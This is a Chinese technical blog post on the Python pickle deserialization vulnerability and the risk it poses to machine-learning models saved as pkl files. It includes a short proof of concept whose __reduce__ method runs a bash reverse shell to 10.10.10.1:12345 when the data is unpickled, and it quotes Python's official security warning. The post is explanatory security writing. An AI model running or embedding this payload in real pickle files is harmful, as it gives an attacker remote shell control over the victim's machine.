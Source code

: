 ```yaml
---
title: "飞哥讲代码24：从Python Pickle漏洞说起"
date: "2021-03-13"
categories:
 - "技术"
tags:
 - "软件开发"
 - "python"
toc: true
---
```


>《泾溪》-- 杜荀鹤  
> 泾溪石险人兢慎，终岁不闻倾覆人。  
> 却是平流无石处，时时闻说有沉沦。 

# 案例

有次同事找我看个Python的安全问题。测试代码是这样的：

```python
import pickle
import os

class Test(object):
    def __reduce__(self):
        cmd = """bash -i &> /dev/tcp/10.10.10.1/12345 0>&1 2>&1"""
        return (os.system,(cmd,))

if __name__ == "__main__":
    test = Test()
    bs = pickle.dumps(test)
    pickle.loads(bs)
```

这个是利用pickle反序列化漏洞，结合shell反弹的安全入侵。当代码执行之后，会后台与10.10.10.1:12345建立连接，在10.10.10.1上的用户则可以直接像ssh远程一样操作你的机器。

目前Python在AI领域应用越来越多，不少传统机器学习的模型也采用pickle格式保存。如基于sklearn训练的模型，通常采用pickle.dump把模型生成pkl文件，当再使用模型时，则通过pickle.load加载模型来进行推理预测。像Java中json/xml/yaml的序列化与反序列化一样，python的pickle对象序列化与反序列化存在更为严重的安全风险。


# 漏洞分析

pickle在[python的官方介绍](https://docs.python.org/3/library/pickle.html)中有一段这样的介绍:

> **Warning** The pickle module **is not secure**. Only unpickle data you trust.   
> 
> It is possible to construct malicious pickle data which will **execute arbitrary code during unpickling**. Never unpickle data that could have come from an untrusted source, or that could have been tampered with.
> 
> Consider signing data with hmac if you need to ensure that it has not been tampered with.

